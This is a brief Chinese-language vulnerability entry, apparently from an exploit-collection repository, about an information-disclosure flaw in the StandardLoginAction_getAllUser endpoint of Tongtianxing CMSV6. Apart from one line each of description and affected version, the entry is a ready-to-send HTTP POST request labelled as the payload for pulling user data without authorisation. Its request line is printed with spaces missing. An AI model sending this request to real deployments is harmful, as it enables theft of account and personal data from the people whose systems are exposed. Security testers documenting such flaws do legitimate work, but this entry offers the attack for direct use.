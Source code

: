 **漏洞描述：**

通天星CMSV6接口StandardLoginAction_getAllUser存在信息泄露，攻击者可以通过访问接口非法获取敏感信息。

**影响版本：**

通天星CMSV6

**Payload：**

```
POST/808gps/StandardLoginAction_getAllUser.actionHTTP/1.1
Host: host
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Connection:close
Content-Length:9
Content-Type:application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding:gzip, deflate

json=null
```

---
